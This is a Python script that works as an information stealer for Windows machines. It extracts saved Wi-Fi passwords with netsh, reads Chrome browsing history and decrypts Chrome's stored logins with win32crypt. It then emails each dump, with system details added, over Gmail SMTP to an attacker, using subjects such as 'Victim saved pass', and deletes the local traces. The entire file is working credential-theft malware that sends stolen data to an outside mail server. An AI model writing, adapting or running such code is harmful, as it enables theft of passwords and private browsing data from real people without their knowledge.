 #!/usr/bin/python
import smtplib
import base64, os, sys, re
import sqlite3
import socket
import platform
import uuid
# Dont change this
marker = "1"


def wifipass():
   def get_wlans():
      data = os.popen("netsh wlan show profiles").read()
      wifi = re.compile("All User Profile\s*:.(.*)")
      return wifi.findall(data)

   def get_pass(network):
      try:
         wlan = os.popen("netsh wlan show profile "+str(network.replace(" ","*"))+" key=clear").read()
         pass_regex = re.compile("Key Content\s*:.(.*)")
         return pass_regex.search(wlan).group(1)
      except:
         return " "

   f = open("wifi.txt","w")
   for wlan in get_wlans():
       f.write("-----------\n"+" SSID : "+wlan + "\n Password : " + get_pass(wlan))
   f.close()

wifipass()

################ CHROME ################
################  CODE  ################
################  HERE  ################
def history():
   import operator
   from collections import OrderedDict
#import matplotlib.pyplot as plt

   def parse(url):
           try:
                   parsed_url_components = url.split('//')
                   sublevel_split = parsed_url_components[1].split('/', 1)
                   domain = sublevel_split[0].replace("www.", "")
                   return domain
           except IndexError:
                   print ("URL format error!")

   def analyze(results):
      b=open("chrome1.txt","w")
      for site, count in sites_count_sorted.items():
         #print site, count
         b.write(site + "\n")
#path to user's history database (Chrome)
      b.close()
   data_path = os.path.expanduser('~')+r"\AppData\Local\Google\Chrome\User Data\Default"
   files = os.listdir(data_path)
   history_db = os.path.join(data_path, 'history')
#querying the db
   c = sqlite3.connect(history_db)
   cursor = c.cursor()
   select_statement = "SELECT urls.url, urls.visit_count FROM urls, visits WHERE urls.id = visits.url;"
   cursor.execute(select_statement)
   results = cursor.fetchall() 
   sites_count = {} 
   for url, count in results:
           url = parse(url)
           if url in sites_count:
                   sites_count[url] += 1
           else:
                   sites_count[url] = 1
   sites_count_sorted = OrderedDict(sorted(sites_count.items(), key=operator.itemgetter(1), reverse=True))
   analyze (sites_count_sorted)
################ CHROME ################
################  CODE  ################
################  HERE  ################
history()
def chrome():
   import os,sqlite3,win32crypt
   data=os.path.expanduser('~')+r"\AppData\Local\Google\Chrome\User Data\Default\Login Data"
   connection = sqlite3.connect(data)
   cursor = connection.cursor()
   cursor.execute('SELECT action_url, username_value, password_value FROM logins')
   final_data=cursor.fetchall()
   a=open("chrome.txt","w")
   a.write("Extracted chrome passwords :\n")
   for website_data in final_data:
       password = win32crypt.CryptUnprotectData(website_data[2], None, None, None, 0)[1]
       one="Website  : "+str(website_data[0])
       two="Username : "+str(website_data[1])
       three="Password : "+str(password)
       a.write(one+"\n"+two+"\n"+three)
       a.write("\n"+"====="*10+"\n")
   a.close()

chrome()

################  EMAIL ################
################  CODE  ################
################  HERE  ################
filename = "wifi.txt"
fo = open(filename, "rb")
filecontent = fo.read()
encodedcontent = base64.b64encode(filecontent)

body = """
New stuff info from victim
""" 
part1 = """From: Victim <>
To: Filip <>
Subject: Victim wifi
MIME-Version: 1.0
Content-Type: multipart/mixed; boundary=%s
--%s
""" % (marker, marker)

part2 = """Content-Type: text/plain
Content-Transfer-Encoding:8bit

%s
--%s
""" % (body,marker)

part3 = """Content-Type: multipart/mixed; name=\"%s\"
Content-Transfer-Encoding:base64
Content-Disposition: attachment; filename=%s

%s
--%s--
""" %(filename, filename, encodedcontent, marker)

message = part1 + part2 + part3

try:
   smtpObj = smtplib.SMTP('smtp.gmail.com:587')
   smtpObj.starttls()
   smtpObj.login(sender, password)
   smtpObj.sendmail(sender, reciever, message)
   fo.close()
   os.remove("wifi.txt")
except Exception:
   print ("Error: unable to send email")
#################################################
filename = "chrome1.txt"
fo1 = open(filename, "rb")
filecontent = fo1.read()
encodedcontent = base64.b64encode(filecontent)

body = """
New stuff info from victim - History
"""
part1 = """From: Victim <>
To: Filip <>
Subject: Victim chrome history
MIME-Version: 1.0
Content-Type: multipart/mixed; boundary=%s
--%s
""" % (marker, marker)

part2 = """Content-Type: text/plain
Content-Transfer-Encoding:8bit

%s
--%s
""" % (body,marker)

part3 = """Content-Type: multipart/mixed; name=\"%s\"
Content-Transfer-Encoding:base64
Content-Disposition: attachment; filename=%s

%s
--%s--
""" %(filename, filename, encodedcontent, marker)

message = part1 + part2 + part3

try:
   smtpObj = smtplib.SMTP('smtp.gmail.com:587')
   smtpObj.starttls()
   smtpObj.login(sender, password)
   smtpObj.sendmail(sender, reciever, message)
   #print "Successfully sent email"
   fo1.close()
   os.remove("chrome1.txt")
except Exception:
   print ("Error: unable to send email")
###########################################
filename = "chrome.txt"
fo = open(filename, "rb")
filecontent = fo.read()
encodedcontent = base64.b64encode(filecontent)

body = """
New stuff info from victim
===========================
Name: %s
FQDN: %s
System Platform: %s
Machine: %s
Node: %s
Platform: %s
Pocessor: %s
System OS: %s
Release: %s
Version: %s
""" % (socket.gethostname(), socket.getfqdn(), sys.platform,platform.machine(),platform.node(),platform.platform(),platform.processor(),platform.system(),platform.release(),platform.version()) ###########
part1 = """From: Victim <>
To: Filip <>
Subject: Victim saved pass
MIME-Version: 1.0
Content-Type: multipart/mixed; boundary=%s
--%s
""" % (marker, marker)

part2 = """Content-Type: text/plain
Content-Transfer-Encoding:8bit

%s
--%s
""" % (body,marker)

part3 = """Content-Type: multipart/mixed; name=\"%s\"
Content-Transfer-Encoding:base64
Content-Disposition: attachment; filename=%s

%s
--%s--
""" %(filename, filename, encodedcontent, marker)

message = part1 + part2 + part3

try:
   smtpObj = smtplib.SMTP('smtp.gmail.com:587')
   smtpObj.starttls()
   smtpObj.login(sender, password)
   smtpObj.sendmail(sender, reciever, message)
   fo.close()
   os.remove("chrome.txt")
except Exception:
   print ("Error: unable to send email")
   
